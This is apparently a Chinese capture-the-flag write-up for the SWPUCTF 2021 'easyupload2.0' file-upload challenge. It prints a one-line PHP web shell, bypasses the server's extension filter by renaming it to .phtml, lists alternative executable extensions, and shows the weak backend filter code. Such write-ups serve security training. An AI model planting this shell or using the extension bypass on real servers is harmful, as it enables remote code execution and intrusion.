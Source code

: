 # [SWPUCTF 2021 新生赛]easyupload2.0


# [SWPUCTF 2021 新生赛]easyupload2.0

![[SWPUCTF 2021 新生赛]easyupload2.0-1](https://pic.imgdb.cn/item/653a2e14c458853aef92193f.jpg)

上传木马：

```php
<?php @eval($_POST['Lyrio']);phpinfo();?> // phpinfo() 在这里充当标记的作用
```

提示过滤了 php 文件

![[SWPUCTF 2021 新生赛]easyupload2.0-2](https://pic.imgdb.cn/item/653a49b0c458853aefeae826.jpg)

过滤代码在后端，只能黑盒测试

最后发现使用 php 的等价拓展名 phtml 可以绕过

![[SWPUCTF 2021 新生赛]easyupload2.0-3](https://pic.imgdb.cn/item/653a4a3ac458853aefecd8f2.jpg)

> **等价拓展名：**
>
> - asp => asa、cer、cdx
> - aspx => ashx、asmx、ascx
> - php => php2、php3、php4、php5、phps、phtml
> - jsp => jspx、jspf

访问一下木马文件，发现确实被当作 php 执行

![[SWPUCTF 2021 新生赛]easyupload2.0-4](https://pic.imgdb.cn/item/653a4a63c458853aefed6872.jpg)

接下来用蚁剑连接，寻找 flag 即可

> 正常来说通过 getshell 拿到 flag 就行了(题目也是这个意思)，但是这个 flag 是错误的，真正的 flag 在 phpinfo 里， CTRL+F 搜索 flag 就能找到

​	

+++
**后端的过滤代码参考：(做题时不可见)**

```php
<?php
session_start();

echo "<meta charset=\"utf-8\">"; 

if (!isset($_SESSION['user'])) {
    $_SESSION['user'] = md5((string)time() . (string)rand(100, 1000)); 
}

if (isset($_FILES['uploaded'])) {
    // 如果有文件通过 POST 请求上传
    $target_path = "./upload"; // 指定上传目录
    $t_path = $target_path . "/" . basename($_FILES['uploaded']['name']); // 构建上传文件的完整路径
    $uploaded_name = $_FILES['uploaded']['name']; // 获取上传文件的名称
    $uploaded_ext = substr($uploaded_name, strrpos($uploaded_name, '.') + 1); // 获取上传文件的扩展名
    $uploaded_size = $_FILES['uploaded']['size']; // 获取上传文件的大小
    $uploaded_tmp = $_FILES['uploaded']['tmp_name']; // 获取上传文件的临时路径

    if (preg_match("/php|hta|ini/i", $uploaded_ext)) {
        // 如果上传文件的扩展名包含 'php'、'hta' 或 'ini'
        die("php是不行滴"); 
    } else {
        // 如果上传文件扩展名没有问题
        $content = file_get_contents($uploaded_tmp); // 读取上传文件的内容
        move_uploaded_file($uploaded_tmp, $t_path); // 将上传文件移动到指定目录
        echo "{$t_path} succesfully uploaded!"; // 输出成功上传的消息，包括文件路径
    }
} else {
    // 如果没有文件通过 POST 请求上传
    die("不传🐎还想要f1ag?"); 
}
?>
```


